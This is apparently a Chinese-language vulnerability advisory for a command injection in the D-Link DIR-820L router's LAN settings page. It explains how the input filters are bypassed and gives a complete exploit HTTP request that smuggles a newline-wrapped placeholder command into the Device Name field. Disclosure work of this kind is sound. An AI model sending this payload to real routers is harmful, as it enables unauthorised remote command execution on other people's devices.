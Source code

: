 # D-Link DIR-820L 存在命令注入漏洞

**漏洞厂商**: D-Link

**厂商官网**: http://www.dlink.com.cn/

**影响产品**: DIR-820L

**影响产品版本**: 1.05 B03

**固件链接**: http://www.dlinktw.com.tw/techsupport/download.ashx?file=2663

**发现者**: [SkYe231](mailto:skye231@foxmail.com)@Hillstone, Akast@Hillstone,GD@Hillstone

## 漏洞详情

在路由： `/lan.asp`， `Device Name` 的值可以命令注入。这个参数有前后端过滤，前端过滤可以 burp 抓包绕过，后端过滤在 `hasInjectionString` (在文件 `lib/libleopard.so`) 。阅读源码之后发现 `\n` 没有被过滤。

![image-20220222165316794](img/image-20220222165316794.png)

## EXP

改数据包 `lanHostCfg_DeviceName_1.1.1.0` 的值为要注入的命令即可，例如：

> lanHostCfg_DeviceName_1.1.1.0=%0aYOUR_COMMAND%0a



```html
POST /get_set.ccp HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/xml, text/xml, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 768
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/lan.asp
Cookie: hasLogin=1

ccp_act=set&old_ip=192.168.0.1&old_mask=255.255.255.0&new_ip=192.168.0.1&new_mask=255.255.255.0&nextPage=lan.asp&lanHostCfg_IPAddress_1.1.1.0=192.168.0.1&lanHostCfg_SubnetMask_1.1.1.0=255.255.255.0&lanHostCfg_DomainName_1.1.1.0=&lanHostCfg_DNSRelay_1.1.1.0=1&lanHostCfg_DHCPServerEnable_1.1.1.0=1&lanHostCfg_MinAddress_1.1.1.0=192.168.0.100&lanHostCfg_MaxAddress_1.1.1.0=192.168.0.200&lanHostCfg_DHCPLeaseTime_1.1.1.0=1440&lanHostCfg_DeviceName_1.1.1.0=%0aYOUR_COMMAND%0a&lanHostCfg_AlwaysBroadcast_1.1.1.0=0&lanHostCfg_NetBIOSAnnouncement_1.1.1.0=0&lanHostCfg_NetBIOSLearn_1.1.1.0=0&lanHostCfg_NetBIOSScope_1.1.1.0=&lanHostCfg_NetBIOSNodeType_1.1.1.0=2&lanHostCfg_PrimaryWINSAddress_1.1.1.0=0.0.0.0&lanHostCfg_SecondaryWINSAddress_1.1.1.0=0.0.0.0&1645537536373=1645537536373
```

